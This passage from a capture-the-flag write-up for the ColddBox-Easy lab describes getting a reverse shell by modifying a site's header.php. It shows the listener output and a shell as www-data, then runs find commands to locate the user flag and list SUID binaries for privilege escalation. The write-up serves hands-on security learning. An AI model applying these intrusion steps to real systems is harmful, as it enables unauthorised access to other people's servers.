 7. Now open the homepage. Since the **header.php** script has been modified with a reverse-shell script, whenever a page is loaded, instead of a header, a reverse shell is established.

```
Listening on 0.0.0.0 1234
Connection received on 10.10.173.55 53182
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:38:53 up 26 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

I now have a reverse-shell! Now let's find that user flag!

I ran the following command to find the file named **"user.txt":
	
```
find / -type f -name 'user.txt' 2>/dev/null
```

It returned:
	
```
/home/c0ldd/user.txt
```

I tried to view the contents, but I got **Permission denied**.

I performed the following **find** command to find what programs had the SUID bit set:
	
```
find / -type f -perm /4000 2>/dev/null
```

I got the following:

```
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find 
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
```
